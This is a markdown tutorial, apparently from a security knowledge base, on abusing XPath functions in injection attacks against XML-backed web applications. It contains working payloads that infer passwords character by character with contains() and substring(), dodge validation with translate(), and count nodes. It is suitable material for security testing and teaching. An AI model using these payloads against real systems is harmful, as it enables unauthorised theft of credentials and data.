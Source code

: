```yaml
---
title: Exploit XPath Functions for XML Data Extraction
description: Learn to exploit XPath functions for extracting and manipulating XML
  data using injection techniques.
keywords:
- XPath functions
- XML data extraction
- XPath injection
- web application exploits
- substring function
- contains function
- normalize-space
- security testing
---
```


# XPath Functions Exploitation

## Context

The purpose of this article is to demonstrate practical exploitation of XPath functions to extract, infer, or manipulate XML data via injection. This discussion assumes you have a working knowledge of XPath syntax, XML structure, web application architecture, and XPath Injection techniques. 

## Theory

### Abusing XPath Functions in Injection Contexts

XPath functions are designed to process, filter, or transform XML data within queries. When an application exposes user input to XPath queries without proper sanitization, it becomes vulnerable to function-based exploitation. By crafting malicious queries, attackers can manipulate the query logic to leak or infer sensitive data stored in XML documents.

### Key XPath Functions for Exploitation

- **contains(), starts-with(), ends-with()**: These functions are used to test for the presence of specific strings or prefixes/suffixes within targeted data.
- **normalize-space(), translate()**: These functions help in bypassing filters or normalizing data extracted from XML documents.
- **concat()**: This function joins multiple strings, which can be useful for constructing complex payloads.
- **count(), position()**: These functions allow enumeration of nodes or infer the structure of the XML.
- **string-length(), substring(), substring-before(), substring-after()**: Utilized for character-by-character data extraction, these functions can be crucial for understanding the structure and content of the XML data.

### Function-Based Data Extraction Logic

- Use boolean functions to infer data through true/false query responses.
- Employ string manipulation functions to extract specific characters or substrings, piece by piece.
- Combine different functions to bypass input validation or obfuscate injected payloads, hiding them from simple detection measures.

## Practice

### Extracting Data with contains() and substring()

To infer sensitive information such as passwords, you can use the `contains()` and `substring()` functions to ask the system specific queries about its content:

- Use the following XPath payload to check if the password of the first user contains the letter 'a':
  ```xpath
  ' or contains(/users/user[1]/password,'a') or '1'='0
  ```
- Use this extraction method to check if a particular character is at the start of a password:
  ```xpath
  ' or substring(/users/user[1]/password,1,1)='a' or '1'='0
  ```

When successful, these queries allow you to infer password contents character by character based on true/false responses from the application.

### Bypassing Filters with normalize-space() and translate()

With `normalize-space()` and `translate()`, attackers can adjust input data to pass validation filters:

- Normalize the username input to remove excess whitespace:
  ```xpath
  ' or normalize-space(/users/user[1]/username)='admin' or '1'='0
  ```
- Translate uppercase to lowercase to force a case-insensitive match:
  ```xpath
  ' or translate(/users/user[1]/username,'ABCDEFGHIJKLMNOPQRSTUVWXYZ','abcdefghijklmnopqrstuvwxyz')='admin' or '1'='0
  ```

Implementing these queries can help in bypassing input validation restrictions, thus aiding successful injection attempts.

### Enumerating Nodes with count() and position()

These functions are invaluable for discovering the number and arrangement of nodes within the XML structure:

- Confirm if there are two user nodes in the system:
  ```xpath
  ' or count(/users/user)=2 or '1'='0
  ```
- Target the first node starkly:
  ```xpath
  ' or position()=1 or '1'='0
  ```

Employing these methods can uncover structural vulnerabilities and help craft more refined attack strategies.

### Combining concat() and substring() for Obfuscated Extraction

By utilizing `concat()` and `substring()`, an attacker can extract multiple characters at once, thus forming complex queries:

- Fetch and verify the first two characters together:
  ```xpath
  ' or concat(substring(/users/user[1]/password,1,1),substring(/users/user[1]/password,2,1))='ab' or '1'='0
  ```

This technique enables extracting multiple characters through concatenated comparison, potentially bypassing naive detection filters focused on simpler patterns.

## Tools

- **Burp Suite**
- **OWASP ZAP**
- **curl** 

These tools assist in constructing, testing, and automating XPath function-based exploitations.